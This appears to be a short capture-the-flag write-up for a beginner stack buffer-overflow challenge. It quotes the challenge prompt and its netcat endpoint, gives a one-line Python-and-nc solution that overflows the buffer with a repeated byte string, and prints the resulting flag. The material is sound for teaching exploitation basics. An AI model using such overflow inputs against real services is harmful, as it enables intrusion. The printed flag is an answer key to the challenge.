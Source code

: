 [../](../../)

# Simple bof (baby)

## PWN - Points: 39

> Want to learn the hacker's secret? Try to smash this buffer!
>
> 
>
> You need guidance? Look no further than to [Mr. Liveoverflow][1]. He puts out nice videos you should look if you haven't already
>
> 
>
> By: theKidOfArcrania
>
> 
>
> ```nc chal.utc-ctf.club 35235```
>
> 
>
> [1]: https://old.liveoverflow.com/binary_hacking/protostar/stack0.html
>
> [bof.c](bof.c)
>
> [stack0.html](stack0.html)
>

## Solution

	python2 -c "print('\x66\x6c\x61\x67'*13)" | nc chal.utc-ctf.club 35235

flag: `utc{buffer_0verflows_4re_c00l!}`